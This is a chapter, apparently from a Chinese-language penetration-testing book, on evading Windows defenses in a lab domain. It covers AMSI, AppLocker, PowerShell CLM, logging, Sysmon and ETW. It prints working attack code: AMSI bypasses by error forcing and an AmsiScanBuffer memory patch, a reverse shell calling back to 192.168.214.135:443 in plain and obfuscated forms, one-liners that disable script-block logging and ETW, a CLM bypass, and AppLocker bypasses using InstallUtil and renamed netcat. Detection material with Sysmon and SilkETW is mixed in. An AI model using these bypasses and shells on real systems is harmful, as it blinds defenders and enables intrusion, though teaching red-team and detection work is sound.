


# 第二章：防御规避

本章的主要思想很简单 – *了解你的工具*。在获得目标机器的初始立足点后，从 GitHub 上获取新工具可能非常诱人，寻找低 hanging fruit 和快速胜利。在一些培训实验室中学习攻击概念可能效果很好；然而，在真实的参与中，一个成熟的对手可以轻松检测到你的恶意活动。有很多专业编写的工具，既有防御也有进攻，更不用说 C2 框架、供应商 EDR 等等。

本章不是一个完全全面的指南，教你如何规避所有可能的检测。规避是一个不断发展的游戏，处于攻击和防御之间。有几个因素可以影响进攻操作的方式，包括准备工作、特定工具的开发、团队的技能组合以及双方的能力。我们不会触及 EDR/杀毒软件规避。已经出版了一些优秀的书籍，将教你如何找到和开发可能的绕过方法，包括攻击安全解决方案本身。

我们将专注于可以在 Windows 环境中部署和强制执行的内置安全功能。在本章中，我们将涵盖以下主要主题：

+   AMSI、AppLocker 和 PowerShell `Constrained Language Mode`（**CLM**）的部署和绕过

+   部署 PowerShell 增强日志记录，规避它，并使用 Sysmon 来检测自己

+   什么是 ETW？它可以提供什么额外的功能和见解？

# 技术要求

在本章中，你将只使用 GOADv2 实验室中的两个虚拟机 – DC01 和 SRV01。确保 SRV01 是一个加入域的机器，因为我们将在本章中使用组策略。

# AMSI、PowerShell CLM 和 AppLocker

在本节中，我们将讨论 Windows 中一些内置功能，可以限制攻击者在受损机器上的操作。AMSI、AppLocker 和 PowerShell CLM 可以以不同方式被绕过，但将它们视为深度防御是一个明智的决定。像往常一样，我们需要了解限制，并在可能的情况下覆盖绕过。

## Antimalware Scan Interface

让我们首先讨论`Antimalware Scan Interface`（**AMSI**）是什么。微软开发了它，为应用程序提供一组 API 调用，包括任何第三方应用程序，以执行基于签名的内容扫描。Windows Defender 使用它来扫描 PowerShell 脚本、.NET、VBA 宏、**Windows 脚本宿主**（**WSH**）、VBScript 和 JavaScript 以检测常见恶意软件。关于 AMSI 的重要之处在于你不需要部署它；自 Windows 10 以来它一直存在。

简单来说，AMSI 算法的工作原理如下：

1.  `amsi.dll`将加载到进程内存空间中；例如，PowerShell 和`AmsiInitialize`将被调用。

1.  然后调用`AmsiOpenSession`，为扫描打开一个会话。

1.  在调用其中一个 API（`AmsiScanBuffer`或**AmsiScanString**）执行之前，脚本内容将被扫描。

1.  如果内容没有已知的恶意签名，Microsoft Defender 将返回`1`作为结果，脚本将被执行。

为了确认 AMSI 的行为，我们可以使用 Process Hacker[1]或 API monitor[2]。这些开源工具允许我们查看加载的进程内模块，获取有关它们的信息以及其他许多信息。在以下截图中，我们可以看到已加载的`amsi.dll`及其导出的函数列表：


图 2.1 – 加载的 amsi.dll 及其导出函数

来自 Microsoft 文档的重要警告如下：“*但你最终需要向脚本引擎提供纯净的、未混淆的代码。正是在这个点上你调用 AMSI API*。”用来证明这一点的快速测试如下：


图 2.2 – 检测与串联

这看起来很简单。我们可以先分割字符串，然后使用串联绕过 AMSI，但在更复杂的代码中，这种方法将需要更多的努力。研究人员用来开发可靠绕过的策略有很多——编码/混淆、钩子、内存修补、强制错误、注册表键修改和 DLL 劫持。你可以找到由*S3cur3Th1sSh1t*[3]和*Pentest Laboratories*[4]创建的两份很棒的绕过汇总列表及其原创研究致谢。某些绕过看起来像一个单行代码，但我强烈建议你深入研究并回顾它们，阅读原始研究并理解思维过程。还值得一提的是，并非每个绕过都会成功，因为微软也在不断修补它们。老牌的 base64 编码一行代码可能不会奏效。确保绕过在目标环境中有效的最佳方法是准确识别受害者的操作系统版本，在你的实验室环境中重现它，并进行测试、测试、测试。

注意

对于一些快速解决方案，有一个由*Flangvik*开发的免费优秀网站（[`amsi.fail/`](https://amsi.fail/)），你可以在这个网站上生成各种 PowerShell 代码片段来禁用或突破 AMSI。另一个有用的工具是 Invoke-Obfuscation[5]，由*Daniel Bohannon*编写。这个工具有不同的模式。对我而言，AST 模式是大多数时候提供可靠绕过的模式。其原理是，脚本将被混淆处理，以至于打破 AMSI 中的 AST 解析算法。

我们将尝试使用三种不同的技术绕过 AMSI：错误强制、混淆和内存修补。如前所述，我将使用 SRV01 机器：

```
Get-WmiObject Win32_OperatingSystem | Select PSComputerName, Caption, Version | fl
PSComputerName : CASTELROCK
Caption        : Microsoft Windows Server 2019 Datacenter Evaluation
Version        : 10.0.17763
```

## 方法 1 – 错误强制

让我们首先看看错误强制代码和一些分割/串联的幻想：

```
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)
```

执行上述命令的结果如下面的截图所示：


图 2.3 – 强制错误

## 方法 2 – 混淆

对于 AST 混淆，我们可以尝试使用 Nishang 框架[6]中的 `PowerShellTcpOneLine.ps1` 反向 Shell 回调，以及之前提到的 Invoke-Obfuscation 工具。我们将在另一台 Windows 计算机上使用 powercat[7] 在 443 端口上设置监听器。以下是原始的反向 Shell 代码：

```
$client = New-Object System.Net.Sockets.TCPClient('192.168.214.135',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

当我们尝试运行时，AMSI 捕获了我们：


图 2.4 – AMSI 阻止原始反向 Shell

让我们运行 Invoke-Obfuscation 工具，选择 AST 混淆，并提供原始反向 Shell 的路径。经过混淆后，代码如下所示：

```
Set-Variable -Name client -Value (New-Object System.Net.Sockets.TCPClient('192.168.214.135',443));Set-Variable -Name stream -Value ($client.GetStream());[byte[]]$bytes = 0..65535|%{0};while((Set-Variable -Name i -Value ($stream.Read($bytes, 0, $bytes.Length))) -ne 0){;Set-Variable -Name data -Value ((New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i));Set-Variable -Name sendback -Value (iex $data 2>&1 | Out-String );Set-Variable -Name sendback2 -Value ($sendback + 'PS ' + (pwd).Path + '> ');Set-Variable -Name sendbyte -Value (([text.encoding]::ASCII).GetBytes($sendback2));$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

运行上述命令得到的结果如下：


图 2.5 – 混淆后的反向 Shell 回调

## 方法 3 – 内存补丁

我们可以通过几种方式在内存中操控 AMSI 来实现绕过。其背后的关键原因是我们完全控制了 `amsi.dll` 被加载的进程。一个例子是强制 `AmsiScanBuffer` 返回 `AMSI_RESULT_CLEAN`。一般思路是导入 API 调用，然后返回一个特定的值给 `AmsiScanBuffer()` 调用：`0x80070057`。原始的绕过方法现在已被 AMSI 检测到，因此我们可以通过使用双重 `add` 操作数并成功绕过控制来操控汇编指令。相关代码如下：

```
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $Win32
$test = [Byte[]](0x61, 0x6d, 0x73, 0x69, 0x2e, 0x64, 0x6c, 0x6c)
$LoadLibrary = [Win32]::LoadLibrary([System.Text.Encoding]::ASCII.GetString($test))
$test2 = [Byte[]] (0x41, 0x6d, 0x73, 0x69, 0x53, 0x63, 0x61, 0x6e, 0x42, 0x75, 0x66, 0x66, 0x65, 0x72)
$Address = [Win32]::GetProcAddress($LoadLibrary, [System.Text.Encoding]::ASCII.GetString($test2))
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0x31, 0xC0, 0x05, 0x78, 0x01, 0x19, 0x7F, 0x05, 0xDF, 0xFE, 0xED, 0x00, 0xC3)
#0:  31 c0                   xor    eax,eax
#2:  05 78 01 19 7f          add    eax,0x7f190178
#7:  05 df fe ed 00          add    eax,0xedfedf
#c:  c3                      ret
#for ($i=0; $i -lt $Patch.Length;$i++){$Patch[$i] = $Patch[$i] -0x2}
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, $Patch.Length)
```

运行上述命令得到的结果如下：


图 2.6 – 使用内存补丁成功解除 AMSI 防护

作为攻击者，我们不能忽视一些防御机制也可能被滥用和绕过的事实。一个很好的例子是 *netbiosX*[8] 发布的内容，指出 AMSI 可以用来在被攻破的主机上实现持久性。利用之前的研究和他们的编码技巧，开发了一个伪造的 AMSI 提供者并在被攻破的主机上注册。通过使用特殊的关键词，我们可以从后门发起回调。

此处提到的所有技术都会在受害者的机器上留下某种痕迹。此外，即使绕过成功，防御者仍然有可能捕捉到。*Pentest Laboratories*[9] 和 *F-Secure*[10] 的精彩博客文章展示了如何创建检测并分享现成的可用方案。

在接下来的章节中，我们将讨论两种在企业环境中常见的安全控制措施。

## AppLocker 和 PowerShell CLM

AppLocker 是微软在 Windows 7 中添加的，作为较旧的**软件限制策略**（**SRP**）的继任者。它本应成为一种全面的应用程序白名单解决方案。通过这个功能，你不仅可以限制应用程序，还可以限制脚本、批处理文件、DLL 等。限制的方式有几种：按名称、路径、发布者或哈希值进行限制。微软指出，AppLocker 是一个安全功能，而不是边界。现在的推荐做法是尽可能严格地执行**Windows Defender 应用程序控制**（**WDAC**），然后使用 AppLocker 来微调限制。然而，在复杂的企业环境中，仍然常见单独使用 AppLocker，因为它更容易部署和管理。

为了更详细地了解 AppLocker 的工作原理，我建议你阅读*Tyraniddo*关于此功能的博客四个部分[11]。他从 AppLocker 的设置和概述开始。第二部分，作者揭示了操作系统内核如何阻止进程创建，并通过一个清晰的例子加以说明。第三部分专注于规则处理，涉及访问令牌和访问检查。读者对安全描述符和令牌的基本了解会有所帮助。最后一部分则完全聚焦于 DLL 阻止。

现在我们知道了 AppLocker 是什么，为什么还需要其他功能呢？什么是 PowerShell CLM，它与 AppLocker 有什么关系？简而言之，我们可以通过启用 CLM 来限制用户使用 PowerShell 的敏感语言功能。这些敏感功能的一些例子包括 Windows API 调用、创建任意类型和点源代码[12]。

CLM 可以通过环境变量强制执行，或者通过语言模式进行设置。然而，这些方法不可靠，攻击者几乎不费吹灰之力就能绕过它们。但是，通过系统级的应用控制解决方案，它是可以使用的。其思想是，当 AppLocker 策略被执行时，PowerShell 会检测到并仅在 CLM 中运行。

*这些保护措施有多强大？*

我们将在我们的`sevenkingdoms.local`实验室域中部署它。我建议在实验室中进行任何更改之前先拍摄一个快照，这样我们可以在需要时迅速恢复到初始状态。我们将在 DC01 上创建一个 AppLocker 组策略，并将其强制执行到 SRV01 服务器上。如果你从未部署过 AppLocker，这里有一份友好的指南[13]。规则很简单——动作、用户、条件以及必要时的例外。通过遵循前面提到的指南[13]，我们将为用户创建默认规则并限制运行`cmd.exe`。一个重要的注意事项——如果你属于**管理员**组，默认情况下，AppLocker 不会应用到你的账户。要检查当前的规则集，我们可以使用以下命令：

```
Get-AppLockerPolicy -Effective | Select-Object RuleCollections -ExpandProperty RuleCollections
```

新的`Deny_CMD`规则可以在以下截图中看到：



图 2.7 – AppLocker 中的拒绝规则

此外，由于我们还对脚本强制执行了规则，PowerShell 在 CLM 中失效了。可以使用以下命令轻松检查：


图 2.8 – PowerShell CLM 的实际操作

这些安全功能的健壮性取决于我们正在实施的规则的质量。在 AppLocker 中，我们有发布者、文件哈希和路径条件。让我们简要讨论它们并展示一些可能的绕过方法。

*路径*限制可以通过评估受信任的路径并将我们的二进制文件复制到那里来绕过；例如，在`C:\Windows`内有许多子文件夹，普通用户可以在那里复制文件。通过更改二进制文件为规则中提到的已知哈希值的二进制文件，可以绕过文件哈希拒绝规则。让我们绕过前两个条件并在主机上执行`nc64.exe`。我创建了一个规则，通过其哈希值阻止`nc64.exe`。我们首先将`nc64.exe`复制到`C:\Windows\System32\spool\drivers\color\`，然后通过在文件末尾添加额外的`A`来更改文件哈希值以绕过文件哈希规则。绕过的结果如下：


图 2.9 – nc.exe 的路径和哈希规则绕过

*发布者*条件要难得多。原因是将检查应用程序的发布者签名和扩展属性。我们不能使用自签名证书来绕过它，但我们可以滥用具有我们需要的扩展功能的合法签名二进制文件。在[`lolbas-project.github.io/`](https://lolbas-project.github.io/)上有一个包含此类二进制文件列表的整个项目。有两篇关于常见 LOLBAS 滥用以绕过 AppLocker 的博客文章，使用`InstallUtil`[14]和 MSBuild[15]。简而言之，我们将使用`MSBuild.exe`来编译和运行存储在 XML 文件中的恶意代码；例如，使用 Windows API 我们可以分配内存，并复制和运行我们的 shellcode。另一种方法是使用 InstallUtil 在受害者的计算机上运行我们的可执行文件：

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U "C:\Windows\Tasks\my.exe"
```

但是如果`cmd.exe`被锁定怎么办？没关系！您可以创建所需二进制文件的快捷方式，比如 InstallUtil 和 csc，然后手动更改目标字段值，以便存储所需的命令行来执行。只要 LOLBAS 二进制文件没有被阻止，它仍然可以可靠地工作。整个包含 AppLocker 绕过列表的项目都可以在 GitHub[16]上找到。通过评估它们，我们可以评估我们的规则有多健壮。

说到 CLM 绕过，有多种方法可以实现完全语言模式（Full Language Mode），例如启动 PowerShell 使其降级到版本 2（现在很少安装），使用`rundll32.exe`配合`PowerShlld.dll`[17]，或者使用绕过方法，如`InstallUtil`[18]的包装器和函数返回值修补[19]。如今，后三个项目需要混淆才能避开 Microsoft Defender。要了解更多关于如何寻找绕过的方法，我推荐阅读*XPN*的优秀研究报告，“通过 COM 实现的 AppLocker 和 CLM 绕过”[20]。不过让我给你展示一下我最近发现的一个我最喜欢的绕过方法，由*sp00ks*提供[21]。以下代码在 HKCU 注册表中设置环境变量值（你不需要是管理员），使用 WMI 创建一个 PowerShell 进程，然后再将值恢复：

```
$CurrTemp = $env:temp
$CurrTmp = $env:tmp
$TEMPBypassPath = "C:\windows\temp"
$TMPBypassPath = "C:\windows\temp"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value "$TEMPBypassPath"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value "$TMPBypassPath"
Invoke-WmiMethod -Class win32_process -Name create -ArgumentList "Powershell.exe"
sleep 5
#Set it back
Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value $CurrTmp
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value $CurrTemp
```

运行前述命令后得到的结果如下：



图 2.10 – CLM 绕过示例

正如我们在本节开头提到的，增强应用程序控制的最佳方法是将**Windows Defender 应用程序控制**（**WDAC**）与 AppLocker 一起部署。最强大的规则集之一叫做 AaronLocker[22]，它可以通过组策略[23]与 WDAC 一起部署到你的环境中。建议首先以审核模式监控你的规则集，逐步进行优化。

# PowerShell 增强日志记录与 Sysmon

在这一部分，我们将探讨 Sysmon[24] 是什么以及如何利用它来检测攻击者的活动。Sysmon 是 Windows 中的一项系统服务，我们可以安装它并用来记录各种事件的信息，包括进程创建、文件事件、注册表访问、命名管道和网络连接。日志会保存在 Windows 事件收集器中。Sysmon 不会阻止任何攻击或提供事件分析。目前有一些很好的项目可以帮助你开始使用 Sysmon。*TrustedSec*[25] 提供了一个很好的社区指南，我们将使用*SwiftOnSecurity*[26] 创建的 Sysmon 配置文件，因为它是最佳的高质量事件追踪模板之一。另外，*Florian Roth*[27] 和 *Olaf Hartong*[28] 也创建了提供多种配置文件的项目。

让我们安装 Sysmon，应用前一个项目中的配置，并开始深入分析日志。安装过程非常简单；只需以管理员身份运行一个命令，命令如下：

```
Sysmon64.exe -accepteula -i sysmonconfig-export.xml
```

预期结果如下：


图 2.11 – Sysmon 安装

现在，我们将启用 PowerShell 转录、脚本块和模块日志记录。为了启用这些功能，我将使用 `kingslanding.sevenkingdoms.local` 上的组策略管理工具。我将在 **计算机配置** | **策略** | **管理模板** | **Windows 组件` | **Windows PowerShell` 中创建一个单独的 GPO。可以在以下截图中看到这些设置：


图 2.12 – 启用 PowerShell 日志记录的组策略

这些日志记录功能旨在为防御者提供更好的可见性，特别是在组织中预计会使用 PowerShell 时。我们的第一个控制是 **脚本块日志记录**，包括 **可疑命令的警告日志记录**。已知 *cobbr.io*（C2 Covenant 框架的作者）发现了 ScriptBlock 日志记录[29] 和可疑命令日志记录[30] 的绕过方法。我只是稍微修改了代码以绕过 AMSI，并增加了一些可见性：

```
$GroupPolicyField = [ref].Assembly.GetType('System.Management.Automation.Utils')."GetF`ie`ld"('cachedGro'+'upPolicySettings', 'N'+'onPu'+'blic,Static')
If ($GroupPolicyField) {
  $GroupPolicyCache = $GroupPolicyField.GetValue($null)
  Write-Host("Before")
  $GroupPolicyCache['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB'+'lockLogging'] | fl
  If ($GroupPolicyCache['ScriptB'+'lockLogging']) {
    $GroupPolicyCache['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging'] = 0
    $GroupPolicyCache['ScriptB'+'lockLogging']['EnableScriptBlockInvocationLogging'] = 0
  }
  $val = [System.Collections.Generic.Dictionary[string,System.Object]]::new()
  $val.Add('EnableScriptB'+'lockLogging', 0)
  $val.Add('EnableScriptB'+'lockInvocationLogging', 0)
  $GroupPolicyCache['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB'+'lockLogging'] = $val
  Write-Host("After")
  $GroupPolicyCache['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB'+'lockLogging'] | fl
}
```

运行上述命令后得到的结果如下：


图 2.13 – PowerShell 脚本块日志记录绕过

需要考虑的一点是，我们的绕过操作仍然会被记录，直到我们首先禁用当前 PowerShell 会话中的**Windows 事件跟踪**（**ETW**）。可以使用以下命令完成此操作：

```
[Reflection.Assembly]::LoadWithPartialName('System.Core').GetType('System.Diagnostics.Eventing.EventProvider').GetField('m_enabled','NonPublic,Instance').SetValue([Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider').GetField('etwProvider','NonPublic,Static').GetValue($null),0)
```

我们还可以混淆此命令以绕过可疑的脚本块日志记录。不要过于依赖混淆，因为经验丰富的蓝队会使用 DeepBlue[31] 等工具进行去混淆，并立即展开调查。幸运的是，对于这个绕过，我们不需要提升权限，只需操作组策略中的缓存值，因此无需修改主机。

*BC-security* 在他们的系列博客文章中引入了两个新的 PowerShell ScriptBlock 和 Module Logging 绕过方法。ScriptBlock 绕过基于这样一个事实：已经记录的脚本块如果第二次遇到会被跳过。其思路是在调用脚本之前将 `HasLogged` 的值设置为 `True`。Module Logging 绕过的目的是创建一个没有关联模块或 PowerShell 快捷方式的可调用命令[32]。博客系列的第二部分展示了如何对命令进行混淆，从而使防御者的分析更加困难[33]。针对这些绕过的快速预防建议将需要 PowerShell Protect 模块[34]。

但是，如果启用了 PowerShell Transcription，我们的活动仍将记录在文件中，而不管之前的绕过。原因是即使我们在活动的 PowerShell 会话中禁用了转录，它仍将继续转录并忽略新更改的值。最初的绕过方法是由*Jann Lemm*在他的博客文章中展示的。这个想法是创建一个自定义 runspace，覆盖`EnableTranscripting`的值，然后打开新的 runspace。博客文章中提供了概念验证代码。

但如果有一个工具可以帮助我们几乎不需要任何手动操作就绕过所有东西呢？那么，请欢迎 Invisi-Shell，由*Omer Yair*编写。该工具通过 CLR Profiler API 钩住.NET 程序集，使 PowerShell 安全控制失效。有关更多详细信息，我强烈建议您阅读该工具的代码，并观看作者在 DerbyCon 上的原始演讲。但请记住，该工具相当古老，并且很容易被大多数安全解决方案检测到。

实现所有这些的最新工具是由*mgeeky*编写的，名为`Stracciatella`[37]。该工具基于 SharpPick 技术（从 C#程序集中启动 PowerShell 代码使用 runspaces），内置了 AMSI、ETW 和 PowerShell 日志记录绕过。但仍然需要一些 AV 逃避。

假设我们在受损的计算机上获得了管理员权限，并决定通过修改位于`HKLM:\Software\Policies\Microsoft\Windows\PowerShell\Transcription`中的`EnableTranscripting`注册表键来禁用转录。可以通过以下 PowerShell 命令从提升的 shell 中运行来完成：

```
Set-ItemProperty -Path HKLM:\Software\Policies\Microsoft\Windows\PowerShell\Transcription -Name  EnableTranscripting -Value 0
```

但假设我们有一个 Sysmon 规则，如下所示：

```
<TargetObject name="PowerShell Logging Changes" condition="begin with">HKLM\Software\Policies\Microsoft\Windows\PowerShell\</TargetObject>
```

我们将收到一个可能触发调查的事件：


图 2.14 – Sysmon 检测到注册表更改

另一个 Sysmon 检测的好例子是通过注册表删除 AMSI 提供程序，这将在日志中创建事件 ID 13。所有提供程序都有其独特的键。例如，Windows Defender 有`HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}`。如果您检查已发布的配置文件，Sysmon 可以从检测的角度提供更多信息。

另一个 Sysmon 的好例子是网络连接检测。让我们尝试运行类似以下命令的内容：

```
SyncAppvPublishingServer.vbs "br; iwr http://192.168.13.152:443/a"
```

Sysmon 会检测活动，但不会阻止连接：


图 2.15 – Sysmon 检测到可疑的出站连接

我们即将结束这一节，所以让我们简要地浏览一下查找和篡改 Sysmon 的可能方法。*spotheplanet*[38]创建了一个很好的指南。对手可以检查进程和服务名称，评估 Sysmon Windows 事件的注册表键，并搜索 Sysmon 配置和工具。

我们有两种主要方式绕过 Sysmon——在规则的盲点内操作或解除 Sysmon 的武装。规则绕过将特定于环境，并可能有显著的差异。那么，让我们来看看我们可以做些什么来解除 Sysmon 的武装。*Olaf Hartong*有一篇出色的博客文章描述了攻击者可能的攻击方式[39]。其中大多数技术需要在机器上具有高度特权访问权限，并可能会触发蓝队的立即严重安全事件，但它们仍然值得一提：

+   配置更改

+   停止 Sysmon 服务

+   抑制日志记录

+   通过注册表访问/更改配置

+   在`Sysmon.exe`中进行进程注入

+   驱动程序重命名

静默 Sysmon 的可靠方法是使用`Invoke-Phant0m`工具[40]，它可以保持受害者的机器在线，但不记录任何内容，因为它会终止日志线程。还有更先进的方式将 Sysmon 置于静默模式，比如修补`EtwEventWrite` API[41]。*Code White*做了显著的研究，展示了如何将 Sysmon hook 住，并且可以操控事件[42]。特别是，我想提到的是，这种解除 Sysmon 的方式可能是目前公开可用的最为“安静”的方式，正如研究人员所说[42]：“*没有可疑的 ProcessAccess 事件在 Sysmon 或事件日志中可见，使得检测（**据称**）变得非平凡。*”

另一种方式是使用一个名为`Shhmon`[43]的工具完全卸载 Sysmon 驱动程序。它允许攻击者找到甚至被重命名的 Sysmon 驱动程序并将其卸载。我们也可以使用一个内置的实用程序`fltMC.exe`或`misc::mflt` Mimikatz 模块来达到同样的目的。无论如何，日志中仍然留下了显著的事件，可以用来追踪这种技术。

# Windows 事件跟踪（ETW）

**Windows 事件跟踪**（**ETW**）是一个内核级别的跟踪工具，用于记录事件，旨在应用程序调试时使用，并且可以在不重启应用程序/系统的情况下启用/禁用。简而言之，系统由三个组件组成——控制器、提供者和消费者。控制器用于启动/停止事件跟踪会话，该会话用于接收来自提供者的事件并将其传递给消费者。要开始使用 ETW，我可以推荐最详细的初学者指南[44]。*Bmcder*展示了如何使用`logman`和`wevtutil.exe`工具、事件清单和 API 来访问 ETW。最后，还列出了对蓝队有用的提供者。同时，值得注意的是，ETW 适用于收集正在进行的事件，而非历史事件。然而，事件数量巨大，并且需要使用 SIEM 和/或 Yara 进行后处理。

让我们调查如何使用 ETW 来查看 .NET 工具的使用情况。*F-Secure* 撰写了两篇优秀的博客文章，讲解如何检测 .NET 的恶意使用。第一部分[45]专注于加载 .NET 程序集的过程以及如何获取这些程序集的可见性。第二部分[46]详细介绍了 JIT 和 Interop 跟踪，展示了如何检测恶意示例，如 Meterpreter 和 SafetyKatz。方法名称、程序集和常见的恶意软件 API 调用对有洞察力的防御者来说是一个安全隐患。对于进攻性和防守性的测试，我们可以使用 *FuzzySec* 创建的一个很棒的工具，叫做 `SilkETW`[47]。本质上，它是 ETW 的一组包装器，可以实时收集和过滤来自 `Microsoft-Windows-DotNETRuntime` 和其他提供者的 .NET 事件。我们可以通过应用 Yara 中已知的妥协指示器进一步增强我们的分析。以下是运行重命名过的 Seatbelt[48]的简单示例：


图 2.16 – Process Hacker 显示加载的 .NET 程序集

我们将通过使用以下命令启动 SilkETW：

```
 .\SilkETW.exe -t user -pn Microsoft-Windows-DotNETRuntime -uk 0x2038 -l verbose -ot eventlog
```

SilkETW 进程启动后，已经收集了 820 个事件。我们执行 Seatbelt，通过运行以下命令来获取系统信息：

```
.\legit_binary.exe OSInfo
```

事件的数量已达到 1,763 个，其中一些包含妥协的指示。浏览这些事件使得像 Yara 或现代 AV/EDR 解决方案等安全产品能够检测我们的活动：


图 2.17 – SilkETW 在实际操作中

对应的日志条目如下：


图 2.18 – 日志中多条 Seatbelt 记录

我们有两种主要策略来避免检测——篡改 ETW 或使用某种形式的混淆。一个开源保护器的例子是 `ConfuserEx`[49]。它仍然会留下些许 IOCs，但作为起点是一个不错的选择，正如 *White* *Knight Labs*[50] 博客文章所展示的那样。

绕过 ETW 的一种更有前途的方法是隐藏其监控的技艺。*XPN* 在他的博客中发布了关于如何做到这一点的精彩研究[51]。这一思路与 AMSI 绕过有很多相似之处——以一种不会记录任何内容的方式修补对 `ntdll!EtwEventWrite` 的调用。*Cneelis* 在他的 TamperETW[52] 示例中展示了另一种实现相同结果的方法。

为了观察 ETW 的实际运作，我鼓励你阅读 *mez0* 写的精彩博客文章[53]。作者演示了如何创建 .NET 提供者、简单的 .NET 加载器检测以及 ETW 中和。执行后修复 ETW 提供者的过程也被展示了。此外，还包括了相关研究的链接以及对其他安全 ETW 提供者的概述，使这项研究独特且具有可辨识性。

*Palantir* 在他们的博客中发布了其他 ETW 篡改技术的列表[54]。其中两种技术（Autologger 提供者移除和提供者 `Enable` 属性修改）需要重启，所有这些技术都至少需要管理员权限。

# 概述

在本章中，我们演示了常见安全控制的规避基本概念。这只是冰山一角，因为我们没有涉及 AV/EDR 绕过、工具定制、Shellcode 加载程序等更多内容。我们讨论了内置控制（AMSI）以及可以通过组策略在域中部署的增强安全组件（AppLocker 和增强的 PowerShell 安全性）。接着，我们查看了可能的检测机制，这些机制可以通过 Sysmon 和 ETW 在 Windows 中实施。

在接下来的章节中，我们将使用不同的工具并专注于概念。我们将在禁用 Microsoft Defender 的机器上运行这些工具。展示规避技巧是整个过程的关键，并且总是第一步。成功的关键是了解我们的工具在幕后做了什么，以及我们在被攻击的机器上留下了哪些 IOCs。

下一章将专门讲解域枚举。我们将展示如何使用不同的工具来完成此任务，了解这些活动的常见模式，并学习如何不遗漏重要细节。

# 参考资料

1.  Process Hacker: [`processhacker.sourceforge.io/`](https://processhacker.sourceforge.io/)

1.  API 监视器: [`www.rohitab.com/apimonitor`](http://www.rohitab.com/apimonitor)

1.  *S3cur3Th1sSh1t* 的 AMSI 绕过列表: [`github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell`](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)

1.  *Pentestlaboratories* 的 AMSI 绕过列表: [`pentestlaboratories.com/2021/05/17/amsi-bypass-methods/`](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/)

